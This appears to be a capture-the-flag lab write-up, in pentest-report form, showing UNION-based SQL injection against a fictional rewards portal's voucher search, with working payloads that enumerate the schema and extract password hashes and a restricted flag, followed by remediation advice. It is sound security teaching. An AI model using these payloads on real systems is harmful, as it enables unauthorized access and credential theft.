










# SQL Injection in Search Vouchers Functionality

## Lab Description
Redzone, a 600-employee insurance brokerage in Charlotte, launched an internal Rewards portal in early 2024 to replace an HR gift-card spreadsheet. The voucher search feature was built by a contractor and shipped alongside a new redemption tier reserved for the executive floor, while a scheduled security pass was dropped prior to launch. The objective of the assessment was to identify and exploit vulnerabilities in the portal to access restricted data.

## Summary
The **Search Vouchers** functionality (`search.php`) in the Redzone Rewards portal is vulnerable to SQL injection. Because user-supplied input in the `Code` search field is directly concatenated into a backend database query without proper parameterization, an authenticated user can manipulate the query structure using `UNION`-based payloads. This allowed full read access to the underlying **MariaDB** database, exposing user account credentials and restricted executive voucher data.

## Background
SQL injection occurs when untrusted user input is dynamically embedded directly into a database query string rather than being handled separately as data. When the database interpreter processes the resulting string, maliciously crafted characters such as single quotes (`'`) break out of the intended data context and alter the logic of the SQL statement. In this application, the `Code` parameter in `search.php` is interpolated directly into a `SELECT` query, enabling an attacker to append arbitrary `UNION SELECT` statements and extract data from other tables in the database.

## Technical Details & Evidence

I started by exploring the website and reviewing its traffic in **Burp Suite** to understand its structure and normal functionality. During this process, I mapped out endpoints such as `/login.php`, `/redeem.php`, `/profile.php`, and `/search.php`, and identified the **Search Vouchers** functionality as a potential injection point.



My first test was to determine whether the `Code` input in **Search Vouchers** was being interpreted as part of an SQL query. I started by submitting a single-quote payload containing a single `NULL` value:

```sql
' UNION SELECT NULL -- -
```



The application returned the error message `Query failed. Check your input.`, indicating that the injected quote broke the query syntax and that the number of columns in the `UNION` clause did not match the original query.

To determine the exact number of columns expected by the original query, I incremented the `NULL` values to three:

```sql
' UNION SELECT NULL,NULL,NULL -- -
```



The query executed without error and returned the standard voucher list, confirming that the original `SELECT` statement returns three columns.

Next, I replaced the `NULL` placeholders with integers to identify which columns are reflected in the UI:

```sql
' UNION SELECT 1,2,3 -- -
```



The response appended a new row displaying `1`, `2`, and `3` under the `CODE`, `VALUE`, and `EXPIRY` columns respectively, confirming that all three columns reflect output directly on the page.

I then enumerated the database version using `version()` in the second column (shown in the screenshot below) before querying `information_schema.tables` to discover the available tables in the database:

```sql
' UNION SELECT 1, table_name, 3 FROM information_schema.tables -- -
```



The version check revealed the backend database was running `10.11.19-MariaDB-0+deb12u1`. Because the single-row `table_name` output only showed the first system table, I used `GROUP_CONCAT(table_name)` to retrieve all table names in a single row:

```sql
' UNION SELECT 1, GROUP_CONCAT(table_name), 3 FROM information_schema.tables -- -
```





Inspecting the full concatenated output in **Mousepad** revealed the application tables at the end of the list: `users`, `admin_vouchers`, `vouchers`, and `redemptions`.

I first targeted the `users` table by querying `information_schema.columns` to identify its column names:

```sql
' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='users'  -- -
```

After identifying the columns (`id`, `email`, `password_hash`, and `display_name`), I extracted the records from the `users` table:

```sql
' UNION SELECT 1, GROUP_CONCAT(id,email,password_hash,display_name),2 FROM users-- -
```



The query returned three user accounts along with their bcrypt (`$2y$10$...`) password hashes:
- `1`: `alice@redzone.local` (`Alice Okafor`)
- `2`: `bhaskar@redzone.local` (`Bhaskar Rao`)
- `3`: `camila@redzone.local` (`Camila Herrera`)


Using the extracted data, access was gained to the `camila@redzone.local` account (`Camila Herrera`), which held `9,320 pts`.

Next, I enumerated the columns of the `admin_vouchers` table to locate restricted executive vouchers:

```sql
' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='admin_vouchers'  -- -
```



The response revealed four columns in `admin_vouchers`: `id`, `code`, `value`, and `expiry`.

Finally, I extracted the contents of the `admin_vouchers` table:

```sql
' UNION SELECT 1,GROUP_CONCAT(id,code,value,expiry),3 FROM admin_vouchers -- -
```



The query returned a single restricted entry containing the flag in the `WEBVERSE{...}` format (redacted in the screenshot) with a value of `CLASSIFIED` and an expiry date of `2099-12-31`.

This confirmed that the **Search Vouchers** functionality is vulnerable to `UNION`-based SQL injection, allowing an attacker to enumerate the database schema, extract user credentials, and retrieve restricted administrative voucher records.

## Impact

### Proven in this lab
- **Unauthorized database schema and version disclosure:** Extracted the underlying **MariaDB** version (`10.11.19-MariaDB-0+deb12u1`) and enumerated all database tables (`users`, `admin_vouchers`, `vouchers`, `redemptions`) and their column structures.
- **Exposure of employee account records and password hashes:** Retrieved the IDs, email addresses, display names, and bcrypt password hashes for three portal users (`alice@redzone.local`, `bhaskar@redzone.local`, and `camila@redzone.local`), leading to authenticated access to `Camila Herrera`'s account (`9,320 pts`).
- **Access to restricted executive-tier voucher data:** Extracted the contents of the `admin_vouchers` table, exposing the classified voucher record (`WEBVERSE{...}` flag) intended to be restricted from standard users.

## Remediation Advice

1. **Use parameterized queries (prepared statements) for all database interactions:** Update the backend logic in `search.php` (and across the portal) so that user input supplied to the `Code` search parameter is bound as a typed parameter rather than concatenated directly into the SQL query string. Prepared statements ensure the database treats user input strictly as literal data, preventing injected SQL syntax from altering query execution.
2. **Apply supplementary defence-in-depth controls:** The following controls provide additional layers of protection, though they are supplementary and must not be implemented in isolation as a substitute for parameterized queries:
   - **Enforce least privilege on the database account:** Configure the web application's database user so it only has `SELECT`, `INSERT`, or `UPDATE` permissions on the specific application tables it needs, and restrict access to sensitive administrative tables or metadata views where possible.
   - **Implement strict input validation:** Validate search inputs on the server side against an expected format and length (for example, allowing only alphanumeric voucher code characters) before processing the request.
   - **Return generic error messages:** Replace database-triggered failure messages with generic user-facing errors and log detailed SQL exceptions strictly on the server side to avoid confirming query syntax behavior to attackers.
3. **Rotate exposed credentials and audit account activity:** Because password hashes for `alice@redzone.local`, `bhaskar@redzone.local`, and `camila@redzone.local` were exposed and Camila's account was accessed, force password resets for all affected users, invalidate active sessions, and review redemption logs for unauthorized point usage.

## References
- OWASP SQL Injection Prevention Cheat Sheet
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')